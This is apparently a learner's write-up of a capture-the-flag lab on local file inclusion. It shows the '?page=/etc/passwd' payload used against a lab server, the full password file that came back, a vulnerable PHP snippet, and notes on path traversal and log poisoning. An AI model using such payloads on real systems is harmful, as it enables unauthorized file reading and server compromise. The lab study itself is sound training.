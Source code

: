 # LFI - Local File Inclusion


### what is LFI??

- Local file inclusion is a vulnerability which an attacker can exploit to include and read files they are not supposed to leading to them discovering ways to harm the system.

- This is another issue of blinding trusting user input. This attack is mostly performed on php backends as they have the include statement. This include statement can be fed very malicious code which it will also execute.

-This could resut in..
1. Denial of service attack.	
2. Remote code execution on the server.
3. Sensitive Information Disclosure.

### Task 1 - Local File Inclusion

```text
export IP=10.10.195.25
```

- Accessed the web server on the ip and did my first local file inclusion exploit.

- Added this query at the end of the url of the vulnerable webapp 
```text
?page=home.html 

?page=/etc/passwd
```

- /etc/passwd file as read from the server
```text
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
lfi:x:1000:1000:THM,,,:/home/lfi:/bin/bash

```

- Here is a sample of a vulnerable php code that allows file inclusion
```php
<?php 
	$local_file = $_REQUEST["page"]
?>
```

### [Task 2] Local File Inclusion Using Directory Traversal

- directory traversal also called path traversal or backtracking is accessing files on the servers system that is not intended to be seen by end user. This is done by manipulating variables used to reference the files. [futher-reading](https://owasp.org/www-community/attacks/Path_Traversal)

- This path traversal just means using the dot-dot-slash linux path traversal to try to locate further out of the webroot directory.


### [Task 3] Reaching RCE using LFI and log poisoning

- Okay even the heading sounds not easy! LOL.

- Log poisoning from what i'm reading online is trying to get a reverse shell on the server by injecting malicious code into the server logs through lfi. [further-reading](https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1)

- The room guide asks to fire up burpsuite and since I have not used it before, i'll just fire up python for this task. Doing a little script to send the request to the website and return the response html code.

- Now i'm trying to do some apache log poisoning attack but i'm not quite getting it. I wrote the whole thing in a python script, piped the result into a result.txt `./burp_sub.py > result.txt`
